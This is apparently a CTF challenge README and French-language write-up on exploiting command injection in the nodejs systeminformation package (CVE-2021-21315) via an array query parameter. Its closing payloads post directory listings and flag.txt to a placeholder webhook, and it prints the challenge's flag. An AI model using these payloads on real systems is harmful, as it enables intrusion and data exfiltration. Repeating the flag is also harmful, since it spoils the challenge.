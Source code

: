 # Quotes-A-Day 2 (API2)

> Web <br>
> Author: @Strix

# Challenge

OK, we've patched the previous vulnerability and finally implemented our new system health check feature. Users can now
query our **system information** to check if the service is available or not and make sure to get their daily quote!

FLAG: `FLAG-0WASP_T0P_9_PATCH_Y0UR_NPM_PACKAG3S`

## Outils nécessaires

- docker-compose

## Exécution

```bash
docker-compose up --build --force-recreate --renew-anon-volumes
```

## Writeup

Le défi ici est une vulnérabilité d'injection de commande dans un package très populaire de nodejs appelée [systeminformation](https://www.npmjs.com/package/systeminformation).
Le package a une vulnérabilité dans 4 fonctions dans lesquels un utilisateur fournit du input non filtré/_santized_.

L'injection de commande se produit ici par l'utilisation d'un tableau plutôt que d'une chaîne, en raison d'un manque de filtrage dans l'une des fonctions du package. (CVE-2021-21315)

Le endpoint `GET /systemInfo` requiert un paramètre `service`.

`GET /systemInfo?service=mongod` renverrait l'état actuel du processus mongod, mais

`/systemInfo?service[]=$(echo 'command injection')` injecterait la commande, puisque `systeminformation.services(<USERINPUT>)` ne _sanitize_ pas les tableaux/listes/arrays, mais uniquement les chaînes de caractères.

L'utilisateur n'a donc qu'à parcourir le répertoire pour trouver le flag.txt. 

```curl
GET /systemInfo?service[]=$(ls -la > out.txt && curl --form "data=@out.txt" <SERVER/WEBHOOK>)
```

```curl
GET /systemInfo?service[]=$(curl --form "data=@flag.txt" <WEBHOOK>)
```

